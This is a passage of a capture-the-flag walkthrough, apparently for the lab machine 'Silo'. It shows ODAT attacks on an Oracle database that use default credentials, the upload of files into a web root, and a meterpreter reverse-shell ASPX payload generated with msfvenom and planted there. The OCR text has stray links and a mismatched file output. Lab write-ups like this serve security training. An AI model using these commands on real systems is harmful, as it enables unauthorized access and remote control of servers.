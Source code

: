 Initially, we will run all the ODAT modules on our victim server.

`╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # python` [`odat.py`](https://nmap.org/submit/) `all -s 10.10.10.82 -d XE -U scott -P tiger`

[`1`](https://10.10.10.82:1521/)`: Is it vulnerable to TNS poisoning (CVE-2012-1675)?   [+] The target is vulnerable to a remote TNS poisoning`

[`2`](https://10.10.10.82:1521/)`: Testing all modules on the XE SID with the scott/tiger account   [2.1] UTL_HTTP library ?   [-] KO   [2.2] HTTPURITYPE library ?   [+] OK   [2.3] UTL_FILE library ?   [-] KO   [2.4] JAVA library ?   [-] KO   [2.5] DBMSADVISOR library ?   [+] OK   [2.6] DBMSSCHEDULER library ?   [-] KO   [2.7] CTXSYS library ?   [-] KO   [2.8] Hashed Oracle passwords ?   [+] OK   [2.9] Hashed Oracle passwords from history?   [-] KO   [2.10] DBMS_XSLPROCESSOR library ?   [+] OK   [2.11] External table to read files ?   [-] KO   [2.12] External table to execute system commands ?   [-] KO   [2.13] Oradbg ?   [-] KO   [2.14] DBMS_LOB to read files ?   [+] OK   [2.15] SMB authentication capture ?   [-] KO   [2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?   [-] KO   [2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?   [-] KO   `

The DBMS\_XSLPROCESSOR library is enabled and therefore allows us to put any file on the machine.  
First, we'll create a simple text file and check if we can successfully upload it to wwwroot .

`   ╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # echo "Hacked By Gerh" > File-Test.txt`

`╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4439]   ╰─[:)] # python` [`odat.py`](https://nmap.org/submit/) `dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:\inetpub\wwwroot" "File-Test.txt" "/tmp/File-Test.txt"`

[`1`](https://10.10.10.82:1521/)`` : Put the /root/Desktop/File-Test.txt local file in the C:\inetpub\wwwroot\ folder like File-Test.txt on the 10.10.10.82 server   [+] The /root/Desktop/File-Test.txt file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the File-Test.txt file` ``

\`  
As you can see, we can upload the file successfully. Let's check using curl .

`   ``╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # curl http://10.10.10.82/File-Test.txt   Hacked By ferdi``   `

Now that we can load to the target system, we can easily generate a reverse shell with ASPX using msfvenom, load it using ODAT, and activate it to gain access to the shell.

``    ╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.15.110 LPORT=443 -f aspx > /tmp/shell.aspx   No platform was selected, choosing Msf::Module::Platform::Windows from the payload   No encoder or badchars specified, outputting raw payload   Payload size: 500 bytes   Final size of aspx file: 3606 bytes` ``

`╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # python` [`odat.py`](https://nmap.org/submit/) `dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "shell.aspx" "/tmp/shell.aspx"   [1] (10.10.10.82:1521): Put the /tmp/shell.aspx local file in the C:\inetpub\wwwroot\ folder like shell.aspx on the 10.10.10.82 server   [+] The /root/Desktop/shell.aspx file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the shell.aspx file`  
\`
